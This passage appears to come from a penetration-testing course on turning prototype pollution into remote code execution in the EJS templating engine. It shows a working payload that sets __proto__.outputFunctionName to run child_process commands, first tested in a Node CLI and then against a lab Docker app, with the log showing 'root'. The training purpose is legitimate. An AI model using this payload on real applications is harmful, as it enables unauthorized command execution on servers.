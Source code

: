 For this to work, our payload will need to complete the variable declaration on the left side, add the code we want to run in the middle, and complete the variable declaration on the right side. If our payload makes the function invalid, EJS will crash when the page is rendered.

 var x = 1; WHATEVER_JSCODE_WE_WANT ; y = __append;'
Listing 64 - RCE Injection POC

The highlighted portion in Listing 64 shows what our payload may be. Let's use the interactive CLI to attempt to log something to the console.

> ejs  = require("ejs")
...
> ejs.render("Hello, <%= foo %>", {"foo":"world"})
'Hello, world'

> {}.__proto__.outputFunctionName = "x = 1; console.log('haxhaxhax') ; y"
"x = 1; console.log('haxhaxhax') ; y"

> ejs.render("Hello, <%= foo %>", {"foo":"world"})
haxhaxhax
'Hello, world'
Listing 65 - Code Execution via CLI

Now that we've confirmed our approach works via the interactive CLI, let's attempt to exploit this in the target application.

Make sure that the TEMPLATING_ENGINE is set to 'ejs' when starting docker-compose. This will ensure we are using the ejs templating engine.

This time, we'll use a payload that will execute a system command and output the response to the console.

"__proto__":
{
    "outputFunctionName":   "x = 1; console.log(process.mainModule.require('child_process').execSync('whoami').toString()); y"
}
Listing 66 - EJS Payload

We'll set the payload in the proper request location.

Figure 21: Code Execution via outputFunctionName - Request
Figure 21: Code Execution via outputFunctionName - Request
Once the token is returned, we'll use it to pollute the prototype.

Figure 22: Polluting the Prototype with RDP request
Figure 22: Polluting the Prototype with RDP request
Now, let's visit any page on the chips server and review the output of the log.

chips_1     | root
chips_1     | 
chips_1     | root
chips_1     | 
chips_1     | root
chips_1     | 
chips_1     | GET / 200 32.799 ms - 4962
Listing 67 - Docker Compose Log Output
